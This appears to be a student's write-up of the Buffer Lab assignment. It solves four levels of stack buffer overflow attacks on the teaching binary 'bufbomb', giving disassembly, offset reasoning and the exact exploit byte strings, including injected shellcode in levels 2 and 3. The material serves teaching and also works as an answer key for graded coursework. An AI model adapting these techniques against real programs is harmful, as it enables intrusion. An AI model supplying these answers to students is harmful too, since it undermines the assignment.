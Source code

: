 # Buffer Lab

> This assignment will help you develop a detailed understanding of IA-32 calling
> conventions and stack organization. It involves applying a series of buffer
> overflow attacks on an executable file bufbomb in the lab directory.

## Level 0: Candle/smoke

Target: get BUFBOMB to execute the code for `smoke` when getbuf executes its return statement

Get `smoke` address from assembly code: `08049415`

```assembly
# buf
08049c12 <getbuf>:
 8049c12:	55                   	push   %ebp
 8049c13:	89 e5                	mov    %esp,%ebp
 8049c15:	83 ec 38             	sub    $0x38,%esp
 8049c18:	83 ec 0c             	sub    $0xc,%esp
 8049c1b:	8d 45 d2             	lea    -0x2e(%ebp),%eax
 8049c1e:	50                   	push   %eax
 8049c1f:	e8 5e fa ff ff       	call   8049682 <Gets>
 8049c24:	83 c4 10             	add    $0x10,%esp
 8049c27:	b8 01 00 00 00       	mov    $0x1,%eax
 8049c2c:	c9                   	leave
 8049c2d:	c3                   	ret
```

`lea -0x2e(%ebp),%eax` => in `buf[M]`, the number of M is 46 => plus 4 bytes in `%ebp`,
the return address should begin at 50.

That is, in this string, the first 50 bytes mean nothing, 50~53 mean the return address.
So, the string should be:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 15 94 04 08
```

## Level 1: Sparkler/fizz

Target: get BUFBOMB to execute the code for `fizz` with argument `cookie`

Assembly code of `fizz`:

```assembly
08049442 <fizz>:
 8049442:	55                   	push   %ebp
 8049443:	89 e5                	mov    %esp,%ebp
 8049445:	83 ec 08             	sub    $0x8,%esp
 8049448:	8b 55 08             	mov    0x8(%ebp),%edx
 804944b:	a1 90 d1 04 08       	mov    0x804d190,%eax
 8049450:	39 c2                	cmp    %eax,%edx      # check if %edx equals to cookie locating in 0x804d190
 8049452:	75 22                	jne    8049476 <fizz+0x34>
 8049454:	83 ec 08             	sub    $0x8,%esp
 8049457:	ff 75 08             	push   0x8(%ebp)
 804945a:	68 23 b0 04 08       	push   $0x804b023
 804945f:	e8 1c fc ff ff       	call   8049080 <printf@plt> # print fizz
 8049464:	83 c4 10             	add    $0x10,%esp
 8049467:	83 ec 0c             	sub    $0xc,%esp
 804946a:	6a 01                	push   $0x1
 804946c:	e8 6f 09 00 00       	call   8049de0 <validate>
 8049471:	83 c4 10             	add    $0x10,%esp
 8049474:	eb 13                	jmp    8049489 <fizz+0x47>
 8049476:	83 ec 08             	sub    $0x8,%esp
 8049479:	ff 75 08             	push   0x8(%ebp)
 804947c:	68 44 b0 04 08       	push   $0x804b044
 8049481:	e8 fa fb ff ff       	call   8049080 <printf@plt> # print buzz, which is wrong
 8049486:	83 c4 10             	add    $0x10,%esp
 8049489:	83 ec 0c             	sub    $0xc,%esp
 804948c:	6a 00                	push   $0x0
 804948e:	e8 bd fc ff ff       	call   8049150 <exit@plt>
```

Similarly, the first 50 bytes mean nothing. 50~53 mean the address of `fizz` which is `08049442`.
54~57 mean nothing. 58~61 mean the cookie `20ba0521`.
Therefore, the string should be:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 42 94 04 08 00 00
00 00 21 05 ba 20
```

## Level 2: Firecracker/bang

Target: get BUFBOMB to execute the code for bang with setting global_value as cookie

Assembly code of `bang`:

```assembly
08049493 <bang>:
 8049493:	55                   	push   %ebp
 8049494:	89 e5                	mov    %esp,%ebp
 8049496:	83 ec 08             	sub    $0x8,%esp
 8049499:	a1 98 d1 04 08       	mov    0x804d198,%eax
 804949e:	89 c2                	mov    %eax,%edx
 80494a0:	a1 90 d1 04 08       	mov    0x804d190,%eax
 80494a5:	39 c2                	cmp    %eax,%edx           # compare *0x804d198 and *0x804d190
 80494a7:	75 25                	jne    80494ce <bang+0x3b>
 80494a9:	a1 98 d1 04 08       	mov    0x804d198,%eax
 80494ae:	83 ec 08             	sub    $0x8,%esp
 80494b1:	50                   	push   %eax
 80494b2:	68 64 b0 04 08       	push   $0x804b064
 80494b7:	e8 c4 fb ff ff       	call   8049080 <printf@plt>
 80494bc:	83 c4 10             	add    $0x10,%esp
 80494bf:	83 ec 0c             	sub    $0xc,%esp
 80494c2:	6a 02                	push   $0x2
 80494c4:	e8 17 09 00 00       	call   8049de0 <validate>
 80494c9:	83 c4 10             	add    $0x10,%esp
 80494cc:	eb 16                	jmp    80494e4 <bang+0x51>
 80494ce:	a1 98 d1 04 08       	mov    0x804d198,%eax
 80494d3:	83 ec 08             	sub    $0x8,%esp
 80494d6:	50                   	push   %eax
 80494d7:	68 89 b0 04 08       	push   $0x804b089
 80494dc:	e8 9f fb ff ff       	call   8049080 <printf@plt>
 80494e1:	83 c4 10             	add    $0x10,%esp
 80494e4:	83 ec 0c             	sub    $0xc,%esp
 80494e7:	6a 00                	push   $0x0
 80494e9:	e8 62 fc ff ff       	call   8049150 <exit@plt>
```

According to gdb, <global_value> locates in `0x804d198`, while <cookie> locates in `0x804d190`.
We need to set <golobal_value> to <cookie> value via assembly code, and finally step into
`bang` locating in `0x08049493`:

```assembly
mov 0x804d190,%eax
mov %eax,0x804d198
push 0x08049493
ret
```

Store the assembly code to <buf> and return to there so that program can execute it.
Before doing that, we need to find out where it is => use gdb with `x $eax` => `0x5568fa12`

* 0~15: assembly code
* 16~49: nothing
* 50~53: buf address

```
a1 90 d1 04 08
a3 98 d1 04 08
ff 35 93 94 04 08
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00
12 fa 68 55
```

## Level 3: Dynamite/boom

Target: supply an exploit string that will cause getbuf to return your cookie back to test

Change return value of `getbuf`. Namely, change the value of `%eax` and return to the same
address `0x08049501` in `test`.

```assembly
mov		$0x20ba0521,%eax
push	$0x08049501
ret
```

In order to get back to `test`, we need also to maintain `%ebp` => `0x5568fa60`

* 0~11: assembly code
* 12~45: nothing
* 46~49: old ebp
* 50~53: buf address

```
b8 21 05 ba 20
68 01 95 04 08
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00
60 fa 68 55
12 fa 68 55
```
